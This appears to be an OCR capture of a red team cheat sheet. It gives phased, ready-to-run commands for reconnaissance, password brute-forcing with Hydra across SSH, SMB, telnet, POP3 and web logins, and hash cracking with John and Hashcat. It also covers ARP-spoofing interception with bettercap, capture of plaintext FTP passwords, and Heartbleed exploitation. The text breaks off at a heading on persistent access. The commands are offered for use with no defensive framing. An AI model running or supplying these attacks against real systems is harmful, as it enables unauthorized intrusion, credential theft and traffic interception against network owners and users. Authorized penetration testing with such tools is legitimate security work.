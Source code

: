 ```bash
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login:user=^USER^&pass=^PASS^:F=invalid"

# Service-Specific Attacks
hydra -l root -P passwords.txt telnet://192.168.1.1
hydra -l administrator -P passwords.txt smb://192.168.1.1
hydra -l admin -P passwords.txt pop3://192.168.1.1

# John the Ripper - Offline Hash Cracking
john --wordlist=passwords.txt hashes.txt
john --format=raw-md5 hashes.txt
john --format=nt hashes.txt

# Hashcat - GPU Accelerated Cracking
hashcat -m 0 -a 0 hashes.txt passwords.txt      # MD5
hashcat -m 1000 -a 0 hashes.txt passwords.txt   # NTLM
hashcat -m 1800 -a 0 hashes.txt passwords.txt   # SHA-512
🛠️ RED TEAM OPERATIONAL PROCEDURES
PHASE 1: NETWORK RECONNAISSANCE & MAPPING
bash
# Service Discovery
nmap -sS -sV -p21,22,23,25,53,80,110,143,443,993,995 192.168.1.0/24

# TLS/SSL Assessment
testssl.sh 192.168.1.1:443
sslscan 192.168.1.1:443

# SSH Configuration Analysis
ssh-audit 192.168.1.1
nmap -p22 --script ssh2-enum-algos,ssh-auth-methods 192.168.1.1
PHASE 2: TRAFFIC INTERCEPTION POSITIONING
bash
# MITM Establishment
bettercap -iface eth0
> set arp.spoof.targets 192.168.1.10,192.168.1.20
> arp.spoof on
> net.sniff on

# Selective Traffic Capture
tcpdump -i eth0 -w credentials.pcap 'port 21 or port 23 or port 25 or port 110'
tshark -i eth0 -f "tcp port 21" -Y "ftp.request.command == PASS"
PHASE 3: CRYPTOGRAPHIC VULNERABILITY EXPLOITATION
bash
# TLS Vulnerability Assessment
nmap -p443 --script ssl* 192.168.1.1
testssl.sh --openssl-timeout 3 --color 0 192.168.1.1:443

# Heartbleed Exploitation (if vulnerable)
nmap -p443 --script ssl-heartbleed --script-args vulns.showall 192.168.1.1
python heartbleed-poc.py -p 443 192.168.1.1
PHASE 4: AUTHENTICATION ATTACK EXECUTION
bash
# Strategic Password Attacks
hydra -L discovered_users.txt -P top_passwords.txt -t 4 -W 3 ssh://192.168.1.1
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f http-post-form://192.168.1.1/login.php:username=^USER^&password=^PASS^:Invalid

# Service-Specific Credential Testing
for service in ssh ftp http-post-form; do
    hydra -L users.txt -P passwords.txt $service://192.168.1.1
done
PHASE 5: PERSISTENT ACCESS ESTABLISHMENT
bash
```